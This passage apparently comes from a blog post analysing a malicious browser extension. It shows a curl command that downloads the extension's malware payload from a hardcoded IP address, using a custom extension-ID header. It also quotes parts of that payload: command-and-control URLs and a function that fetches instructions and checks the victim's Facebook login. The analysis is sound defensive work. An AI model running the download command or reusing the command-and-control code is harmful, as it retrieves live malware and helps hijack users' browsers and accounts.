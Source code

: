 }
{% endhighlight %}

Exactly why it needs to add a timestamp to the <abbr title="Uniform Resource Locator">URL</abbr> and a custom header to the request is beyond me. All I know is that the server doesn't reply without them. I was able to simulate a such request with the following cURL command.

{% highlight bash %}
curl -o external.js --header "XYZ-Extension-Id: nogheblblcgkncmpggmikmcpnjdihgdd" http://104.131.35.136:9999/jsnew.php?id=22&r=1467883037000
{% endhighlight %}

This gave me the malware payload. It doesn't have a formal name, but I called it `external.js`. This is a fairly long file, clocking in at 1288 lines. Here's what it's capable of doing.

### Getting instructions from an external server
Two <abbr title="Uniform Resource Locators">URLs</abbr> are defined in the beginning of `external.js`:

{% highlight javascript linenos %}
var ACTIONS_URL = 'http://159.203.99.206/api/get/';
var STATUS_URL = 'http://159.203.99.206/api/status';
{% endhighlight %}

The first <abbr title="Uniform Resource Locator">URL</abbr> is to get instructions from a server, and the second one is to report back to it. This model of getting instructions from a server and sending the status back is not a new trick at all; it's called [Command and Control](https://en.wikipedia.org/wiki/Command_and_control_(malware)) (or <abbr title="Command and Control">C&C</abbr> for short).

We'll discover how the extension gets instructions from the <abbr title="Command and Control">C&C</abbr> server, and what the instructions contain by looking at the `getActions()` function defined in `external.js`:

{% highlight javascript linenos %}
function getActions(uid) {
	var xhr = new XMLHttpRequest();
	
	xhr.open('GET', ACTIONS_URL + uid, true);
	xhr.responseType = 'json';
	
	xhr.onload = function() {
		var data = xhr.response;
		var actions = data && data.actions;
		
		if (Array.isArray(actions) && actions.length) {
			checkFBLogin(function(status) {
				fbLoginStatus = status;
				handleActions(actions);
			});
		}
	};
	
	xhr.send();
}
{% endhighlight %}
